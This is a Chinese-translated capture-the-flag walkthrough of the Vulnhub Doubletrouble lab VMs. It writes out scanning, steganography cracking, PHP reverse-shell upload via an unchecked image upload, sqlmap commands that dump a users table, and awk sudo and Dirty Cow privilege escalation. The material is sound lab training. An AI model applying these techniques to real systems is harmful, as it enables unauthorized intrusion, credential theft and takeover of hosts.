# Vulnhub Doubletrouble:演练

> 原文：<https://infosecwriteups.com/vulnhub-doubletrouble-walkthrough-b8958f894ca?source=collection_archive---------2----------------------->


嗨！在本文中，我将解释如何从 Vulnhub 获取 Doubletrouble machine 中的标志。他们表示这台机器很简单，但我认为它比一台简单的虚拟机要难一些。我们开始吧！

这是这个虚拟机的链接:[https://www.vulnhub.com/entry/doubletrouble-1,743/](https://www.vulnhub.com/entry/doubletrouble-1,743/)

# 扫描

在我的例子中，虚拟机具有 IP 10.10.10.17，如果您不确定可以运行的 IP 地址(更改网络):

```
nmap 10.10.10.0/24
```

我使用几个选项运行 nmap:

```
sudo nmap -sV -sC -p- 10.10.10.17
```

我们发现端口 22 和 80 打开了:

```
Starting Nmap 7.91 ( [https://nmap.org](https://nmap.org) ) at 2021-10-14 10:21 EDT
Nmap scan report for 10.10.10.17
Host is up (0.00016s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 6a:fe:d6:17:23:cb:90:79:2b:b1:2d:37:53:97:46:58 (RSA)
|   256 5b:c4:68:d1:89:59:d7:48:b0:96:f3:11:87:1c:08:ac (ECDSA)
|_  256 61:39:66:88:1d:8f:f1:d0:40:61:1e:99:c5:1a:1f:f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: qdPM | Login
MAC Address: 08:00:27:74:3B:2D (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernelService detection performed. Please report any incorrect results at [https://nmap.org/submit/](https://nmap.org/submit/) .
Nmap done: 1 IP address (1 host up) scanned in 8.07 seconds
```

# 情报收集

这是将你带到解决方案的阶段。作为第一步，我用浏览器的 80 端口上网:



我们可以尝试用默认密码登录，但是没有办法进入。所以让我们继续目录暴力，我个人使用 gobuster:

```
gobuster dir -r -u [http://10.10.10.17/](http://10.10.10.17/) -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
```

默认情况下 Kali 安装没有这些词表，你可以从 https://github.com/danielmiessler/SecLists[下载](https://github.com/danielmiessler/SecLists)

总之，gobuster 给了我一堆有趣的目录，其中一个特别:

```
===============================================================
Gobuster v3.1.0
by OJ Reeves ([@TheColonial](http://twitter.com/TheColonial)) & Christian Mehlmauer ([@firefart](http://twitter.com/firefart))
===============================================================
[+] Url:                     [http://10.10.10.16/](http://10.10.10.16/)
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
2021/10/14 11:21:32 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 276]
/.hta                 (Status: 403) [Size: 276]
/.htpasswd            (Status: 403) [Size: 276]
/backups              (Status: 200) [Size: 742]
/batch                (Status: 200) [Size: 941]
/core                 (Status: 200) [Size: 3053]
/css                  (Status: 200) [Size: 1306]
/favicon.ico          (Status: 200) [Size: 894] 
/images               (Status: 200) [Size: 2366]
/install              (Status: 200) [Size: 1815]
/js                   (Status: 200) [Size: 1956]
/index.php            (Status: 200) [Size: 5808]
/robots.txt           (Status: 200) [Size: 26]  
/secret               (Status: 200) [Size: 954] 
/server-status        (Status: 403) [Size: 276] 
/sf                   (Status: 200) [Size: 1140]
/template             (Status: 200) [Size: 1704]
/uploads              (Status: 200) [Size: 1138]

===============================================================
2021/10/14 11:21:33 Finished
===============================================================
```

似乎在**的秘密**目录中有一些有趣的东西。当我们用浏览器浏览该目录时，我们应该只看到一张图片，现在我们该怎么办？


# 打破秘密

这幅图的想法之一是尝试隐写术，我使用了**steg seek**([https://github.com/RickdeJager/stegseek](https://github.com/RickdeJager/stegseek))。

```
stegseek doubletrouble.jpg /usr/share/wordlists/rockyou.txtStegSeek 0.6 - [https://github.com/RickdeJager/StegSeek](https://github.com/RickdeJager/StegSeek)[i] Found passphrase: "92camaro"       
[i] Original filename: "creds.txt".
[i] Extracting to "doubletrouble.jpg.out".
```



现在，我们可以尝试使用这些凭据登录，它们会起作用。

# 剥削

这是我们进去后的仪表板，这里没什么可做的。



在配置文件部分，“上传图像”功能不检查文件扩展名或 MIME 类型，让我们上传一个 PHP shell([https://www.revshells.com/](https://www.revshells.com/))。



打开外壳文件。在我的 Kali 机器中，我在 9001 上运行 nc 监听。



运行**和** python 命令来获得交互式 shell。

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

# 权限提升

如果我们运行 sudo -l，我们会看到 awk 在那里，转到 GTFOBins([https://gtfobins.github.io/](https://gtfobins.github.io/))按照指示尝试 awk 命令来提升权限。



现在我们是根了！我个人更喜欢把我的公钥放进去。ssh 目录并使用 ssh 连接。

当我们移动到/root 时，我们发现一个 OVA 文件(另一个 VM！名字就是这么来的！)，我把文件移到 web dir 里，从浏览器下载。



# 第二台机器

像之前一样，使用相同的选项运行 nmap，我们会发现在端口 80 上有一个登录界面。此虚拟机的 IP 地址为 10.10.10.18。



也许有某种 SQL 注入，但我懒得手动测试，运行 sqlmap！

# SQL 注入

为了说明 sqlmap 的要点，我们必须浏览选项并获得我们需要的内容，我将解释所有的命令。



一旦完成，我们将看到它是一个 MySQL 服务器，容易受到基于时间的 SQL 注入的攻击。

现在我们知道了 dbms，检索当前使用的数据库

```
sqlmap -u [http://10.10.10.18/](http://10.10.10.18/) --forms --dbms=mysql -p uname --current-db
```



现在我们知道了数据库名称，让我们用表来试试:

```
sqlmap -u [http://10.10.10.18/](http://10.10.10.18/) --forms --dbms=mysql -p uname -D doubletrouble --tables
```

我们将只获得用户表。这对下一个命令很有用，我们将转储该表中的所有数据:

```
sqlmap -u [http://10.10.10.18/](http://10.10.10.18/) --forms --dbms=mysql -p uname -D doubletrouble -T users --dump
```



我们终于有东西了！让我们使用这些用户通过 SSH 进行连接。

# SSH 连接



我们的克莱普顿用户工作。在克莱普顿用户的主目录中有一个标志，让我们得到它



# 权限提升

你可能注意到了登录时的内核版本，其实这是一个容易被 Dirty Cow([https://raw . githubusercontent . com/fire fart/Dirty Cow/master/Dirty . c](https://raw.githubusercontent.com/FireFart/dirtycow/master/dirty.c))攻击的版本。让我们开发它并得到根！



正如你在上面的图片中看到的，我从 Github 下载了 C 文件并编译了它。



当你执行 Dirty Cow 文件时，它将创建一个用户 **firefart** 作为新的 root 用户(记住 root 拥有他的特权是因为 UID = 0，而不是名字)。您可能会注意到，passwd 文件被替换并备份在 tmp 目录中。

Firefart 用户使用 root 作为密码。使用 firefart 用户通过 SSH 登录:



这是我们的旗帜！抓住它！

我不认为这台机器容易做两件事，第一件是它有一个很长的过程来获得最终的根标志，第二件是有一个内核利用，我认为不是每天的活动。

我们经历了利用 MIME 类型、SQL 注入、web 目录暴力、内核利用和隐写术。我希望你和我一样喜欢这个虚拟机。

谢谢大家！